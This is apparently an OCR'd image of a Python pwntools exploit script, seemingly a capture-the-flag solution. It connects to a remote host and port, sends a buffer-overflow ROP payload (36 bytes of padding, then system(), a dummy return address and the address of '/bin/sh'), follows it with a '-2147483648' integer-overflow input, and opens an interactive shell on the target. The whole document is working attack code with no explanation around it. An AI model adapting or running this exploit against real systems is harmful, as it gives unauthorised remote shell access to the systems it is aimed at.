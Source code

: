 ```python
elif len(sys.argv) > 1:
    is_remote = True
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)
    libc = ELF(remote_libc)

elf = ELF(local_file)

context.log_level = 'debug'
context.arch = elf.arch

se      = lambda data               :p.send(data) 
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
info_addr = lambda tag, addr        :p.info(tag + ': {:#x}'.format(addr))

def debug(cmd=''):
    if is_local: gdb.attach(p,cmd)

# info
# gadget
# elf, libc
system = elf.symbols['system']
binsh = elf.search('/bin/sh').next()

# rop1
offset = 36
payload = 'A'*offset
payload += p32(system) + p32(0xdeadbeef) + p32(binsh)

sl(payload)

sleep(1)

sl('-2147483648')

# debug()
# info_addr('tag',addr)
# log.warning('--------------')

p.interactive()
```
